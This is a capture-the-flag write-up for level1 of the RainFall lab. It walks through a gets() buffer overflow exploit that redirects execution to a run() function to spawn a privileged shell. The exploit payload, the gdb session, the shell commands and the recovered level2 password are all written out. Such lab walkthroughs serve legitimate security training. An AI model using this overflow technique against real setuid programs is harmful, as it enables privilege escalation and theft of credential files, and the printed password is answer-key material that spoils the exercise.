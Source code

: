 level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l
	total 732
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	level1@RainFall:~$ ./level1 test
	█
	```
*	So we get an endless loop here, let's do as usual
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level1@192.168.29.4:~/level1 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh
	```
*	When we take a look at the main it looks like I was wrong, the code use the function `gets()` which led me to think that the program is reading the input (My mistake here, I should've at least tried to add something)
*	We also have another function called `run()`, this one uses `fwrite()`.
*	Looking deeper into gdb, we can see that it takes $eax=`("Good... Wait what?\n")` and then it calls `system()` to execute `/bin/sh`
*	So, now we are dealing with a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/)
*	Here we can see the buffer is sized `80` bytes
	```assembly
	sub    $0x50,%esp
	```
*	Instead of using python I made a little [program](source/randomStr.sh) in shell to get a random string of `x` char
	```console
	level1@RainFall:~$ echo str > /tmp/exlpoit
	```
*	Since this program is more of a buffer *over-READ* issue, we need to put our exploit in a file instead of doing it on the terminal directly
	```console
	level1@RainFall:~$ gdb ./level1
	(gdb) r < /tmp/exploit
	Starting program: /home/user/level1/level1 < /tmp/exploit

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	```
*	I found this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to get calculate the offset and it is `76`
*	Our exploit will be the usgin the run function.
	```assembly
	08048444 <run>:
	```
*	In many modern systems, including Intel x86 and x86_64 architectures, little-endian is the prevalent byte order. So we add `\x44\x84\x04\x08` in the end of the exploit.
*	Let's try this, this time I use python to make this more readable:
	```console
	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
	level1@RainFall:~$ cat /tmp/exploit | ./level1 
	Good... Wait what?
	Segmentation fault (core dumped)
	```
	Make sure to use `echo -e` if you don't use python print because the memory part won't be interpreted as binary data.
*	The issue here is that the `/bin/sh` will shutdown because it is trying to read `STDIN`. We have to make sure cat, there is many ways to make sure it keeps reading 
	```console
	level1@RainFall:~$ (cat /tmp/exploit; cat) | ./level1
	level1@RainFall:~$ cat /tmp/exploit - | ./level1
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```